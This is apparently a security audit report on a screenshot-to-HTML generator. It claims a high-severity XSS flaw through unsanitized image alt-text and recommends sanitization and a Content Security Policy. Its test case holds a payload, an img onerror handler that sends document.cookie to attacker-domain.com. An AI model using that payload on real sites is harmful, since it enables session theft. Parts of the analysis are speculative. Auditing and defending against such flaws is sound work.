 # Vulnerabilities Matching Conditions:

## 1. Potential Cross-Site Scripting (XSS) via Image Alt-Text Injection

- **Vulnerability Name:** Cross-Site Scripting (XSS) via Image Alt-Text Injection
- **Description (step by step):**
    1. An attacker provides a malicious screenshot containing an alt-text metadata field embedded with malicious JavaScript code.
    2. The backend application processes uploaded images and utilizes AI to directly include user-supplied alt-text into generated HTML or React frontend components without sufficient escaping or input validation.
    3. The frontend receives and further renders this generated code directly, resulting in execution of the malicious JavaScript payload when viewed by other users.
- **Impact:**
    - Execution of arbitrary JavaScript scripts within the context of the victim's browser, enabling attacks such as session hijacking, stealing sensitive user information, or defacing the application UI.
- **Vulnerability Rank:** High
- **Currently Implemented Mitigations:**
    - Currently, placeholder images and AI-generated descriptions are predominantly employed, offering limited incidental protection.
- **Missing Mitigations:**
    - Explicit sanitization routines for user-supplied alt-text before embedding into generated frontend code.
    - Lack of encoded or escaped characters in generated HTML content.
    - No strict Content Security Policy (CSP) implementation observed.
- **Preconditions:**
    - Attacker must have the ability to upload a screenshot with attacker-controlled malicious alt-text metadata.
    - AI-based backend must directly embed attacker-provided alt-text into resulting HTML for frontend rendering without encoding or validation.
- **Source Code Analysis:**
    1. Backend file: `backend/image_generation/core.py` handles image alt attributes without visible input sanitization:
        ```python
        for img in images:
            if not img["src"].startswith("https://placehold.co"):
                mapping[img["alt"]] = img["src"]
        ```
        This process takes user-supplied input directly without visible escaping or encoding routines.

    2. The processed alt-text potentially propagates downstream into dynamically generated code by backend services at (`backend/llm.py`), embedding unsanitized alt-text.
    3. Generated HTML transferred directly to frontend interfaces via API responses (`/generate-code`) without validation.

- **Security Test Case:**
    1. Upload a screenshot with manipulated alt-text:
        ```html
        "><img src=x onerror=document.location='http://attacker-domain.com/?'+document.cookie>
        ```
    2. Submit for frontend code generation.
    3. Backend processes without sanitization, embedding malicious alt-text into generated frontend code.
    4. Frontend renders the preview of generated HTML.
    5. Malicious JavaScript executes within browser context upon rendering, stealing cookies and triggering HTTP request to the attacker-controlled domain.

---

## Recommendations for fixing vulnerabilities:

- **Explicit Input sanitization:**
  - Implement encoding or escaping routines using libraries such as **Bleach** (Python) or appropriate React/Frontend sanitizers (e.g., **DOMPurify**).
  - Ensure backend implementation (`backend/image_generation/core.py` and `backend/llm.py`) explicitly sanitize or encode all user-generated inputs before using within HTML-generating components.

- **Content Security Policy (CSP):**
  - Implement a strict Content Security Policy header, restricting execution contexts and preventing untrusted script execution within rendered HTML pages, significantly reducing the impact of successful injections.

---

# Vulnerabilities Removed From List:

- **Server-Side Request Forgery (SSRF) via URL Screenshot Endpoint:**
    - Ranked medium severity. The task explicitly requires high or critical severity only.

- **Unrestricted HTML Content Injection via AI-generated Code:**
    - Ranked medium severity. The task explicitly requires high or critical severity only.

---

# **Final Valid High/Critical Severity Vulnerabilities List:**

### 1. Cross-Site Scripting (XSS) via Image Alt-Text Injection

(Details described in section above)
